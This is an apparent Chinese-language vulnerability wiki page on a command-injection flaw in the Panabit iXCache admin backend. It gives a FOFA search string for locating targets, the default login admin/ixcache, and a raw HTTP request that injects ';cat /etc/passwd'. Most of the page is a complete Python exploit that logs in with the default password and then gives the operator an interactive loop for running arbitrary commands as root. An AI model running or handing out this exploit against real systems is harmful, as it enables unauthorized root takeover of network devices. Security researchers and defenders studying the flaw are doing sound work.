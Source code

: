 # Panabit iXCache ajax_cmd 后台命令执行漏洞

## 漏洞描述

Panabit iXCache  后台 ixeye指令输入时存在命令拼接漏洞，将会以Root权限执行任意代码

## 漏洞影响

> [!NOTE]
>
> Panabit iXCache

## FOFA

> [!NOTE]
>
> "iXCache"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/pa-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

默认账号密码为：**admin/ixcache**

![](http://wikioss.peiqi.tech/vuln/pa-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

进入后台后点击命令行，访问Url

```
/cgi-bin/Maintain/cfg_cmd
```

![](http://wikioss.peiqi.tech/vuln/pa-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

输入命令时使用 **;** 即可命令拼接执行任意命令

请求包为

```
POST /cgi-bin/Maintain/ajax_cmd?action=runcmd&cmd=ixeye%20;cat%20/etc/passwd HTTP/1.1
Host: 
Connection: close
Content-Length: 0
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: _walkthrough-introduction=0; pauser_1615540522_368691=paonline_admin_73708_16196903931;Path=/
```

## 漏洞POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : Panabit iXCache cfg_cmd 后台命令执行漏洞                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login/userverify.cgi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "username=admin&password=ixcache"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers,data=data, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/login/userverify.cgi.... \033[0m".format(target_url))
        if '/cgi-bin/monitor.cgi' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在默认口令 admin/ixcache \033[0m".format(target_url))
            cookie = response.headers['Set-Cookie']
            print("\033[36m[o] 获取Cookie : {} \033[0m".format(cookie))
            POC_2(target_url, cookie)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie):
    vuln_url = target_url + "/cgi-bin/Maintain/ajax_cmd?action=runcmd&cmd=ixeye%20;cat%20/etc/passwd"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": "_walkthrough-introduction=0;{}".format(Cookie)
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, verify=False, timeout=5)
        if 'root' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[36m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Cmd = input("\033[35mCmd >>> \033[0m")
                if Cmd == "exit":
                    sys.exit(0)
                else:
                    POC_3(target_url, Cmd, Cookie)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cmd, Cookie):
    Cmd = Cmd.replace(" ", "%20")
    vuln_url = target_url + "/cgi-bin/Maintain/ajax_cmd?action=runcmd&cmd=ixeye%20;{}".format(Cmd)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": "_walkthrough-introduction=0;{}".format(Cookie)
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/pa-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)